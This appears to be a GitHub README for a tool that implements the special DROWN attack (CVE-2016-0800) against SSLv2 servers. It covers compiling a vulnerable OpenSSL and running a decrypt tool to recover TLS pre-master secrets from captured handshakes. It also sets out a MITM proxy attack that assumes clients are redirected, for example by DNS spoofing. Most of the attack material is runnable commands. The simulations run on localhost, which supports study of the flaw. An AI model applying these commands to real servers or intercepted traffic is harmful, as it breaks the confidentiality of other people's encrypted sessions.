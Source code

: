 # drown
Implementation of the special DROWN attack on SSL2

Note : this does not cover the general DROWN attack.


## Installation

First, we need a version of OpenSSL with SSLv2 enabled. Also, if we want to make some simulations, we need a vulnerable OpenSSL (<= 1.0.1l).
We will compile and install it on the folder /path/to/prefix :

    wget https://www.openssl.org/source/openssl-1.0.1l.tar.gz
    tar xzf openssl-1.0.1l.tar.gz
    cd openssl-1.0.1l
    ./config enable-ssl2 enable-weak-ciphers --openssldir=/path/to/prefix
    make && make install

Now let's compile the exploit :

    git clone https://github.com/Tim---/drown
    SSL_PREFIX=/path/to/prefix make

To decrypt an encrypted pre-master secret c, using the public key of the server at the address host:port, we will use the following command :

    ./decrypt host:port certfile c

## Passive attack

In this type of attack, we can see the traffic between a server and a client using TLS.
In this case, we can decrypt some TLS sessions if :
* the same server, or another server, allows SSLv2 connections with the same public key ;
* the TLS sessions uses RSA as a key exchange algorithm (no Diffie-Hellman) ;
* the server is vulnerable to CVE-2016-0800 ;
* there is a sufficient number of session.

### Simulation

To simulate this scenario, want to record some TLS handshakes between a client and a server.
We will use the old version of OpenSSL we have installed to create a server, and initiate a lot of sessions.
We will capture the handshakes with tshark.

    cd /path/to/prefix
    ./bin/openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 123
    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4433 -www
    tshark -i lo -w handshakes.cap tcp port 4433
    for i in $(seq 1000) ; do (echo 'GET / HTTP/1.1\r\n'; sleep 0.1) | ./bin/openssl s_client -connect 127.0.0.1:4433 -cipher kRSA; done

We can now get the encrypted pre-master secrets for each session with :

    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d :

To decrypt these handshakes, we need an OpenSSL server accepting SSLv2 connections :

    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4434 -www -ssl2

We can now decrypt the encrypted pre-master secret : 

    tshark -r handshakes.cap -d tcp.port==4433,ssl -T fields -e ssl.handshake.epms -Y ssl.handshake.epms | tr -d : | ./decrypt localhost:4434 cert.pem > pms.txt

After some time and if we're lucky, we will have some results in pms.txt. You can use this file in Wireshark to decrypt the content of the TLS session (Protocol Preferences > SSL > (Pre)-Master-Secret log filename).

## Gandalf attack

The passive attack allows us decrypt some TLS sessions (around 1/100 using 70 trimmers).
If we want to see all the traffic between the client and the server, we can act as a MITM proxy between them
and only allow sessions that we know we can decrypt.
This will be effective if the client doesn't mind getting a TLS handshake abruptly closed, and if it tries hard to reconnect.
This will typically work if the client is an automated process (and not a human !).

### Simulation

We start our SSLv2 and TLS servers :

    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4433 -www
    ./bin/openssl s_server -cert cert.pem -key key.pem -accept 4434 -www -ssl2

We start our MITM server on port 4455 :

    tlsgandalf 127.0.0.1:4455 127.0.0.1:4433 127.0.0.1:4434 cert.pem

We will record the packets with tshark, and start a bunch of sessions.
We assume that the clients connects to our proxy (because of DNS spoofing, or something else) :

    tshark -i lo -w handshakes.cap tcp port 4455
    for i in $(seq 1000) ; do (echo 'GET / HTTP/1.1\r\n'; sleep 1) | ./bin/openssl s_client -connect 127.0.0.1:4455 -cipher kRSA; done

When a trimmer is found for one handshake, the proxy will print it to stdout. 
We can now process as before to decrypt the session.

## Fully Active attack

The real power of the DROWN attack is that, if we are quick enough to break an encrypted master key before the client or server times out, we can do anything we want with the session content. Even better, even if the session wouldn't use RSA key exchange, we can force them to use it. Even even better, if the server uses authentication, the data that we send will be authenticated as being from the client.

For now, it's a work in progress...


